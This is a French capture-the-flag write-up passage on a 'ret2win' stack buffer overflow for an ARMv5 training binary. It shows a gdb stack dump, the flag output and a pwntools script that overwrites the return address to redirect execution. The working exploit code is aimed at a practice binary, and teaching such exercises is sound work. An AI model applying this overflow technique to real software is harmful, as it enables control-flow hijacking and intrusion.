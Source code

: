     gef➤  x/12x $sp
    0x40800188:	0x20202020	0x20202020	0x20202020	0x20202020
    0x40800198:	0x20202020	0x20202020	0x20202020	0x20202020
    0x408001a8:	0x20202020	0x000105ec	0x00000000	0x3fe70790
                            ret2win

    continue 

Le premier écran reçoit

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!


### En python 

Il est difficile de fonctionner en attachement avec gdb.

On utlise donc gdb.debug pour lancer le programme.

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2win_armv5')

winadr = elf.symbols["ret2win"]

gs='''
b *pwnme+80
c
'''

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

print("ret2win addr : ",hex(winadr))
PL=0x24*b"A"+p32(winadr)
io.sendline(PL)
io.interactive()
```

En mode debug le module pwntools lance bien le programme avec gdb-multiarch et la bonne architecture. 
